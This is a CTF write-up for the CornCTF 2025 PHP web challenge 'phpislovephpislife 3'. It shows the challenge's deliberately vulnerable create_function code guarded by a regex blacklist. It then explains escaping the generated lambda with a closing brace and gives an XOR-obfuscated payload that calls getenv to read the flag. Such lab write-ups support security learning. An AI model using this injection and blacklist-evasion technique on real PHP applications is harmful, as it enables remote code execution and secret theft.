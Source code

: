 ```yaml
---
title: CornCTF 2025 - phpislovephpislife 3
date: 2025-07-28
lastmod: 2025-07-28T19:59:34+02:00
categories:
  - writeup
  - cornCTF
tags:
  - web
  - php
authors:
  - Valenter
---
```

As the title suggests, straightforward PHP shenanigans.

Let's dive in.

## Overview

There's only one file we need to look at, and the author has been kind enough to highlight the relevant parts for us

```php
if (isset($_POST['code'])) {

    $code = $_POST['code'];
    // I <3 blacklists
    $characters = ['\`', '\[', '\*', '\.', '\\\\', '\=', '\+', '\$'];
    $classes = get_declared_classes();
    $functions = get_defined_functions()['internal'];
    $strings = ['eval', 'include', 'require', 'function', 'flag', 'echo', 'print', '\$.*\{.*\$', '\}[^\{]*\}', '?>'];
    $variables = ['_GET', '_POST', '_COOKIE', '_REQUEST', '_SERVER', '_FILES', '_ENV', 'HTTP_ENV_VARS', '_SESSION', 'GLOBALS', 'variables', 'strings', 'blacklist', 'functions', 'classes', 'code'];

    $blacklist = array_merge($characters, $classes, $functions, $variables, $strings);

    foreach ($blacklist as $blacklisted) {

        if (preg_match('/' . $blacklisted . '/im', $code)) {

            $output = 'No hacks pls';
        }
    }

    if (count($_GET) != 0 || count($_POST) > 1) {
        $output = 'No hacks pls';
    }

    if (!isset($output)) {
        $my_function = create_function('', $code);
        // $output = $my_function(); // I don't trust you
        $output = 'This function is disabled.';
    }
    echo $output;
}
```

There's a pretty strict blacklist in place that won't allow us to use any of the convenient php tools to carry out our exploit: no built-in functions, no superglobals and very few available symbols.

What are we exploiting exactly?

This part right here:

```php
    if (!isset($output)) {
        $my_function = create_function('', $code);
        // $output = $my_function(); // I don't trust you
        $output = 'This function is disabled.';
    }
    echo $output;
```
The author thought cleverly to stop our function from executing by commenting `$output` out, unfortunately for him, though, `create_function` still takes our input as an argument, so we can just insert our own comment at the end of our inputted code and let the `eval` that create_function runs internally do its magic.

### How does this work *exactly*

Internally, eval does something of the sort:
```php
$wrapper = 'function __lambda'.$uniq.'() { ' . $code . '; }';
```
and then runs `eval($wrapper)`

Everything inside `{}` doesn't get executed but is rather defined as the function's body;
**however**, if we close the curly bracket at the start of our injected code, we can leave the function's context and `eval` will execute our code, granting us RCE.

But how do we take advantage of this?

There are a few flaws in the blacklist implementation, notably, it allows `die()` and several symbols that we can use to craft a payload.

## Exploitation phase

With a bit of fuzzing and recalling that PHP allows operations on strings such as XOR, we can obfuscate our input `die(getenv(flag))` in such a way that it bypasses the blocklist.

Final payload:
```php
};die(('WUDU^F'^'000000')(('v|qw')^'0000'));//
```
- `'WUDU^F'^'000000'` is `getenv` xorred
- `'v|qw')^'0000'` is `FLAG` xorred

This is only possible because PHP allows functions to be called by referencing them as strings

https://www.youtube.com/watch?v=hRnUR7fJdaU&list=RDhRnUR7fJdaU&start_radio=1
